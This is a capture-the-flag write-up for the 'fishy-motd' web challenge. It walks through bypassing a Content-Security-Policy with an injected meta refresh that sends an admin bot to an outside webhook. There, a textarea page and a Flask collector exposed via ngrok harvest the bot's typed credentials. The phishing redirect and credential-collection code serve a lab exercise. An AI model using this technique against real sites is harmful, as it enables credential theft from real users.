

## fishy-motd (web, 263 points, 41 solves)

>I just created a tool to deploy messages to server admins in our company. They *love* clicking on them too!
`http://ctf.b01lers.com:5110`

## Overview

We're given a service that allow us to create custom [MOTDs](https://en.wikipedia.org/wiki/Message_of_the_day) which is going to be used in a login page.

We're also able to see the preview of the login page with our custom MOTD in it. Of course, we can deploy our MOTD and show it to admins.

This is a big hint, we can immediately tell that we need to do [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting).

## Analysis

Let's start by taking a look at the main page.



Let's try typing some HTML tags:

```html
<h1> yes </h1>

<script> alert(1); </script>
<a href="https://example.com">Blablabla</a>
```

The login page will look like this:


Something is obviously wrong: our `alert` didn't pop. There's definitely something denying the execution of our javascript code... Something called [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 😭

>Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.

It's possible to specify the policy using HTTP headers or the `<meta>` tag.
We can see in the login page HTML the meta tag which contains the Content-Security-Policy:

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```

In our case, the CSP consists of three directives:

- `default-src 'none'`, this directive serves as a fallback for the other CSP fetch directives.
- `style-src 'self'`, this directive specifies valid sources for stylesheets. In our case, the only valid source is `http://ctf.b01lers.com:5110`
- `form-action 'self'`, this directive restricts the URLs which can be used as the target of form submissions from a given context. In our case, the only valid target of form submissions is `http://ctf.b01lers.com:5110`.

So, here's what we're unable to do:

- Execute any javascript code
- Use custom CSS
- Submit data to external servers from the login page

But... How it's possible to redirect the admin without executing any javascript code?
Luckly for us, the `meta` tag allows us to do that.
Let's see if it works by typing the following line:

```html
<meta http-equiv="Refresh" content="0; url='https://google.com/'" />
```


**YES!** Now we're able to redirect the admin anywhere we want.

## Let the games begin

Before doing 🐟fishy🐟 things, we need to understand what the admin does on the login page.
We can see inside the `index.js` file what the bot is going to do once on the login page.

```javascript
const adminBot = async (id) => {
    const browser = await puppeteer.launch({
        headless: true, // Uncomment below if the sandbox is causing issues
        // args: ['--no-sandbox', '--disable-setuid-sandbox', '--single-process']
    })
    const page = await browser.newPage();
    await page.setViewport({ width: 800, height: 600 });
    const url = `http://localhost:${port}/login?motd=${id}`;
    await page.goto(url);
    await page.mouse.click(10, 10);
    await new Promise(r => setTimeout(r, 1000));
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
    await new Promise(r => setTimeout(r, 1000));
    await browser.close();
    messages[id] = undefined;
    return { error: null };
}
```

Ok, let's break down what the bot does:

- Visits `http://localhost:${port}/login?motd=${id}` using the specified id
- Clicks to position (10, 10) (maybe it will click on the MOTD, idk)
- Waits for one second
- Checks if the current page is the same as the page with the MOTD
- Waits for another five seconds
- Clicks in the position of the username field and writes the admin's username
- Clicks in the position of the password field and writes the admin's password
- Waits for one second

Luckly for us, the `meta` tag allows us to specify the redirect delay. Our final MOTD will look like this:

```html
<meta http-equiv="Refresh" content="1.1; url='https://my.webhook/'" />
```

Where `1.1` indicates the redirect delay (in seconds).

## Solution

Now let's create our server, which will collect the admin credentials. The dumbest way to accomplish this, is using a really wide textarea, and then redirect the admin after a bunch of seconds.

Our main page will look like this:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="X-UA-Compatible" content="IE=edge" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>lol</title>
    </head>
    <body>
        <form action="/lol" method="POST">
            <textarea name="credentials" style="min-width: 2000px; min-height: 1000px;"> </textarea>
        </form>
        <script>
            setTimeout(function () {
                document.getElementsByTagName("form")[0].submit();
            }, 4500);
        </script>
    </body>
</html>
```

We're going to use the Flask library, which will handle the POST requests for us.

```python
from flask import Flask, request, render_template

app = Flask(__name__)


@app.route("/lol", methods=["POST"])
def lol():
    credentials = request.form.get("credentials")
    print(f"{credentials = }")

    return "lol"


@app.route("/")
def index():
    return render_template("index.html")


app.run("0.0.0.0", 1337)
```

We can use [ngrok](https://ngrok.com/) to make our site accessible to everyone.

Finally, we can send our payload to the admin.


We can distinguish the username from the password easily, the correct credentials will be:

- username: **n01_5y54dm1n**
- password: **`7zzHuXRAp)uj@(qO@Zi0`**

If we use these credentials to log in, we get the flag!

`flag: bctf{ph15h1ng_reel_w1th_0n3_e}`
